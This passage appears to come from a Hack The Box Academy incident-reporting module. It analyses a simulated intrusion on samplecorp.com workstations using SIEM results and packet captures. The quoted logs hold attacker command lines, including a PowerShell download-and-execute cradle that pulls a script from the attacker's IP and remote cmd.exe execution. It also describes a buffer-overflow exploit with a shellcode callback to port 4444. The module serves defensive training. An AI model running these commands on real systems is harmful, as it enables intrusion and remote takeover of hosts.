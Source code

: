 The below table is the result of a SIEM query that aimed to identify all instances of command execution initiated from `192.168.220.66`, based on data from `WKST01.samplecorp.com`.

|event_data.CommandLine.keyword: Descending|beat.hostname.keyword: Descending|Count|
|---|---|---|
|`cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1`|WKST01|5|
|`cmd.exe /Q /c dir 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1`|WKST01|4|
|`powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX`|WKST01|2|
|`whoami`|WKST01|1|
|`...`|...|...|
|`powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.220.66/test.php'); $m = Get-ModifiableService; $m`|HR01|1|

The results suggest that the unauthorized entity has successfully infiltrated the hosts: `WKST01.samplecorp.com` and `HR01.samplecorp.com`.

**HR01.samplecorp.com**
`HR01.samplecorp.com` was investigated next, as the unauthorized entity, `192.168.220.66`, was shown to establish a connection with `HR01.samplecorp.com` at the earliest possible moment in the packet capture.

![](https://academy.hackthebox.com/storage/modules/238/6.png)

Network traffic details suggest a buffer overflow attempt on the service running at port `31337` of `HR01.samplecorp.com`.

![](https://academy.hackthebox.com/storage/modules/238/7.png)

The network traffic was exported as raw binary for further analysis.

![](https://academy.hackthebox.com/storage/modules/238/8.png)

The extracted binary was analyzed in a shellcode debugger, `scdbg`.

`Scdbg` reveals that the shellcode will attempt to initiate a connection to `192.168.220.66` at port `4444`. This confirms that there has been an attempt to exploit a service running on port `31337` of `HR01.samplecorp.com`.

![](https://academy.hackthebox.com/storage/modules/238/9.png)

A search for network connections between `HR01.samplecorp.com` and the unauthorized entity was conducted using the aforementioned traffic capture file. Results revealed connections back to the unauthorized entity on port `4444`. This indicates that the unauthorized entity successfully exploited a buffer overflow vuln to gain command execution on `HR01.samplecorp.com`.

![](https://academy.hackthebox.com/storage/modules/238/6_.png)

The depth of the technical analysis can be tailored to ensure that all stakeholders are adequately informed about the incident and the actions taken in response. While we've chosen to keep the investigation details concise in this module to avoid overwhelming you, it's important to note that in a real-world situation, every claim or statement would be backed up with robust evidence.
